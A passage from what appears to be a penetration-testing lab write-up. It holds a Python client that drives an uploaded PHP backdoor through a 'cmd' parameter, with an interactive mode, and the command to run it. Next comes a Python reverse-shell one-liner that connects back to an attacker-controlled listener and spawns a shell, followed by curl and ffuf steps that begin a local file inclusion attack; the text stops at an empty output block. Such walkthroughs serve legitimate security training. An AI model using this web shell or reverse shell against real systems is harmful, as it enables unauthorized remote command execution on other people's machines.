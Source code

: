 ```Python
# Instruct script to send requests with the GET method if the target and payload parameters are defined by the user and to return the output via text
elif args.target and args.payload:
	print(requests.get(args.target + '/?cmd='+args.payload).text)

# Make an option for an interactive shell if the --option command is set to yes
if args.target and args.option == "yes":
	os.system("clear")

	# start a while loop that will keep the shell interactive until CTRL+C is inputted
	while True:
		# print output of whatever is inputted into the interactive shell via the cmd= parameter
		try:
			cmd = input("$ ")
			print(requests.get(args.target + "/?cmd=" + cmd).text)
			# Have a wait time of .3 seconds during each request
			time.sleep(0.3)
		# Make exceptions for the errors of an invalid URL scheme or connection issue
		except requests.exceptions.InvalidSchema:
			print("Invalid URL Schema: Use http:// or https://")
		except requests.exceptions.ConnectionError:
			print("Connection to requested URL failed")
			
```
#### Run the script as follows
```Shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```
#### To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above
```Shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes

$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
Ensure that an active listener (such as Netcat) is in place before executing
## Local File Inclusion (LFI)
#### Begin interaction with the target
```Shell
curl http://10.129.226.209:3000/api
```
Output:
```
{"status":"UP"}
```
#### Fuzz the API's endpoints using `common-api-endpoints-mazen160.txt`
```Shell
ffuf -w "/usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u "http://10.129.226.209:3000/api/FUZZ"
```
Output:
```
download                [Status: 200, Size: 71, Words: 5, Lines: 1, Duration: 29ms]
```
#### Examine the `download` directory
```Shell
curl http://10.129.226.209:3000/api/download
```
Output: